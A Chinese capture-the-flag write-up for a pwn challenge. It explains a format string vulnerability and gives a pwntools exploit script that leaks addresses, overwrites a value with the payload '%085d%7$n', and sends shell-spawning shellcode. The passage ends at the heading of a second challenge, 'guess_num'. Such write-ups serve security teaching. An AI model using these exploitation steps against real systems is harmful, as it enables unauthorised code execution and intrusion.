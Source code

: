这个题目啰嗦的一批，重点其实是一个格式化字符串漏洞和shellcode，

大致分析一下程序，漏洞是一个格式化字符串改掉一个位置触发shellcode， 

输入的位置， 最开始的name无所谓， 其他的输入点都是确定的，一个格式化字符串漏洞要修改值， 是'%x$n'形式， 然后shellcode就是getshell的形式。

这样大致确定一个思路，调试下格式化字符串的位置就好：
![](https://img-blog.csdnimg.cn/20200305010609926.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)


首先读入一个地址，然后利用格式化字符串去修改， 
![](https://img-blog.csdnimg.cn/20200305010627497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

这里可以找到偏移为7个， 可以的到exp：

```python
context(os = 'linux', arch= 'amd64')

# secret
(p.recvuntil('secret[0] is '))
s0 =int(p.recvuntil('\n')[:-1], 16)
success(hex(s0))
success(s0)
(p.recvuntil('secret[1] is '))
s1 = int(p.recvuntil('\n')[:-1], 16)
success(hex(s1))


name = 'aaa'
p.recvuntil('name be:\n')
p.sendline(name)
p.recvuntil('up?:')
p.sendline('east')
p.recvuntil('leave(0)?:')
p.sendline('1')

# wish
p.recvuntil('address\'')
p.sendline(str(s0))
p.recvuntil("And, you wish is:\n")
payload="%085d%7$n"
p.sendline(payload)

# shellcode
p.recvuntil('SPELL\n')
p.sendline(asm(shellcraft.amd64.linux.sh()))

```

# guess_num

![](https://img-blog.csdnimg.cn/20200305010637202.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

